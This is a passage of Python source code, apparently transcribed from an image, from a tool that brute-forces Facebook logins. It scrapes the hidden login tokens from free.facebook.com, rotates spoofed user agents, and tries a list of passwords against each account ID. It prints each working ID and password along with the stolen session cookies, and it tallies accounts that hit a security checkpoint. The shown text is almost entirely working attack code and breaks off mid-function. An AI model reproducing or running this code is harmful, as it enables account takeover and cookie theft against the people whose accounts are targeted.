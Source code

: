 			if "checkpoint" in po.cookies.get_dict().keys():
				print('\n')
				print(f'\033[0;1m[ + ] \033[33;1mCP: {idf};{pw}')
				cp+=1
				break
			elif "c_user" in ses.cookies.get_dict().keys():
				coki = po.cookies.get_dict()
				kuki = (";").join(["%s=%s" % (key, value) for key, value in ses.cookies.get_dict().items()])
				print('\n')
				print(f'\033[0;1m[ + ] \033[32;1mOK: {idf};{pw};{kuki}')
				ok+= 1
				break


			else:
				continue
		except requests.exceptions.ConnectionError:
			time.sleep(501)
	loop+=1


def free(idf,pwv):
	global loop
	global ok
	global cp
	sys.stdout.write(f"\r\033[0;1m[ \033[34;1m{loop}:{len(id)} \033[0;1m]  \033[0;1m[ \033[32;1m{ok} \033[0;1m]  \033[0;1m[ \033[33;1m{cp} \033[0;1m]"),
	sys.stdout.flush()
	ua = random.choice(ugen)
	ua2 = random.choice(ugen2)
	ses = requests.Session()
	for pw in pwv:
		try:
			ses.headers.update({"Host":'free.facebook.com',"upgrade-insecure-requests":"1","user-agent":ua2,"accept":"text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*[inserted by cython to avoid comment closer]/[inserted by cython to avoid comment start]*;q=0.8,application/signed-exchange;v=b3;q=0.9","dnt":"1","x-requested-with":"mark.via.gp","sec-fetch-site":"same-origin","sec-fetch-mode":"cors","sec-fetch-user":"empty","sec-fetch-dest":"document","referer":"https://free.facebook.com/","accept-encoding":"gzip, deflate br","accept-language":"en-GB,en-US;q=0.9,en;q=0.8"})
			p = ses.get('https://free.facebook.com/login/?email='+idf).text
			dataa ={
'lsd':re.search('name="lsd" value="(.*?)"', str(p)).group(1),
'jazoest':re.search('name="jazoest" value="(.*?)"', str(p)).group(1),
'm_ts':re.search('name="m_ts" value="(.*?)"', str(p)).group(1),
'li':re.search('name="li" value="(.*?)"', str(p)).group(1),
'email':idf,
'pass':pw
}
			ses.headers.update({'Host': 'free.facebook.com',
'cache-control': 'max-age=0',
'upgrade-insecure-requests': '1',
'origin': 'https://free.facebook.com',
'content-type': 'application/x-www-form-urlencoded',
'user-agent': ua,
'accept': 'text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*[inserted by cython to avoid comment closer]/[inserted by cython to avoid comment start]*;q=0.8,application/signed-exchange;v=b3;q=0.9',
'sec-fetch-site': 'same-origin',
'sec-fetch-mode': 'cors',
'sec-fetch-user': 'empty',
'sec-fetch-dest': 'document',
'referer': 'https://free.facebook.com/login/?email='+idf,
'accept-encoding':'gzip, deflate br',
'accept-language':'en-GB,en-US;q=0.9,en;q=0.8'})

